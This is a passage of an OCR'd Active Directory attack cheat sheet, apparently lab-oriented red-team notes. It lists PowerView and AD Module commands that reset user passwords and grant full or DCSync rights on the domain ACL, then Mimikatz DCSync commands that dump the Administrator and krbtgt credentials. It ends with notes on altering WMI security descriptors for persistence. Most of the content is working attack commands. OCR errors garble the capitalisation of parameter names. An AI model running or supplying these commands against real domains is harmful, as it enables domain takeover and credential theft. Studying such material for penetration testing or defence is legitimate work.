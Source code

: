 > > > > > > > > Set-ADAccountPAssword -Identity <AccountNAme> -NewPAssword (ConvertTo-SecureString 'PASSME#!0rd' -AsPlainText -Force) -Verbose
> > > > > > > > ```
> > > > > > >
> > > > > > > **PowerView_dev**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Set-DomainUserPAssword -Identity <AccountNAme> -AccountPAssword (ConvertTo-SecureString 'P@ssw0rdM3!' -AsPlainText -Force) -Verbose
> > > > > > > > ```
> >
> > :nine::b: **Domain Object ACL**
> >
> > > :nine::b::one: **PowerView_dev** 
> > >
> > > > ```
> > > > Add-ObjectACL -TargetDistinguishedNAme 'DC=dollarcorp,DC=monrycorp,DC=local' -PrincipaleSamAccountNAme <AccountNAme> -Rights All -Verbose
> > > > ```
> > > >
> > > > **OR** add **DCSync** rights only 
> > > >
> > > > > ```
> > > > > Add-ObjectACL -TargetDistinguishedNAme 'DC=dollarcorp,DC=monrycorp,DC=local' -PrincipaleSamAccountNAme <AccountNAme> -Rights DCSync -Verbose
> > > > > ```
> > >
> > > :nine::b: :two: **AD Module**
> > >
> > > > ```
> > > > Set-ADACL -DistinguishedNAme 'DC=dollarcorp,DC=monrycorp,DC=local' -Principale <accountNAme> -Verbose
> > > > ```
> > > >
> > > > **OR** add **DCSync** rights only 
> > > >
> > > > > ```
> > > > > Set-ADACL -DistinguishedNAme 'DC=dollarcorp,DC=monrycorp,DC=local' -Principale <accountNAme> -GUIDRight DCSync -Verbose
> > > > > ```
> > >
> > > :nine: :b: :runner:**Abuse**
> > >
> > > > :a: `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\Administrator"'`
> > > >
> > > > :b: `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`
> >
> > :nine:**C** ***Modify Security Descriptor of multiple remote access methods***
> >
> > > :information_source: Domain Administrative privileges are required 
> > >
> > > :bulb: Security Descriptor Definition Language **SDDL** use **ACE strings** 
> > >
> > > :information_desk_person: ACE for built-in **Administrator** for WMI namespace `A;CI;CCDCLCSWRPWPRCWD;;;SID`
> > >
> > > :bulb: Two point of interest here are : COM security Component ACL in `component services` including subsequences namespaces and Namespace in  ACL `computer management`
> > >
> > > **Test Payload**  
> > >
> > > ```
> > > Get-WMIobject -class win32_operatingsystem -ComputerName <domainFQDN> 
> > > ```